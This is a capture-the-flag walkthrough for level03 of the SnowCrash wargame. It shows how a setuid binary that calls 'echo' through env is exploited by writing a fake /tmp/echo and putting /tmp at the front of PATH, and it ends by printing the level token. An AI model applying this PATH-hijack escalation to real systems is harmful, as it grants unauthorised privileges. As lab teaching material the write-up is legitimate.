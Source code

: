 In our home directory we can see :

```
level03@SnowCrash:~$ ls -l level03
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03
Exploit me
```
If you look at ./level3 with strings you can see a call to echo :
```
level03@SnowCrash:~$ strings ./level03
/usr/bin/env echo Exploit me
```

We can replace the echo command with a fake version that will provide us with the getflag command. This is possible because ./level03 has the permissions of the flag03 user.
```
	`echo '/bin/getflag' > /tmp/echo; chmod +x /tmp/echo; export PATH=/tmp:$PATH; ./level03`

`
Finally, run the executable to get the token for level04:

```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : `qi0maab88jeaj46qoumi7maus`
